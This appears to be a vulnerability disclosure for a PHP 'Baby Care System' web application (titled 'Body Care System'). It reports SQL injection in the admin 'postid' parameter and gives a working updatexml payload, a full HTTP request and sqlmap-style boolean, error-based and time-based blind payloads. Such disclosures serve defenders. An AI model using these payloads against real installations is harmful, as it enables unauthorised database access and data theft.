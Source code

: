 ## Body Care System has SQL injection vulnerability

vendor: https://www.sourcecodester.com/php/14622/baby-care-system-phpmysqli-full-source-code.html

Vulnerability file: /BabyCare/admin/post.php
![image](https://user-images.githubusercontent.com/54017627/160947343-4af02ffc-dc9a-4a18-a89f-030cff9b88c3.png)

Vulnerability location: /BabyCare/admin.php?id=posts&action=display&value=1&postid= //postid is Injection point

[+]Payload:  /BabyCare/admin.php?id=posts&action=display&value=1&postid=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+ //postid is Injection point

```sql
GET /BabyCare/admin.php?id=posts&action=display&value=1&postid=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+ HTTP/1.1
Host: 192.168.1.19
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=7r2orfo1e9b49mg28f5ke9bdjv
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/160947460-e04fc6ea-01de-4030-9bef-14ca8412e23a.png)

```sql
---
Parameter: postid (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: id=posts&action=display&value=1&postid=1' RLIKE (SELECT (CASE WHEN (5665=5665) THEN 1 ELSE 0x28 END))-- GiVX

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=posts&action=display&value=1&postid=1' AND (SELECT 7280 FROM(SELECT COUNT(*),CONCAT(0x71627a7071,(SELECT (ELT(7280=7280,1))),0x71787a6a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- PXXk

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=posts&action=display&value=1&postid=1' AND (SELECT 3574 FROM (SELECT(SLEEP(5)))SpIf)-- qCfa
---
```

![image](https://user-images.githubusercontent.com/54017627/160947103-63d81371-a6d8-4430-96a4-3cb300c56fef.png)
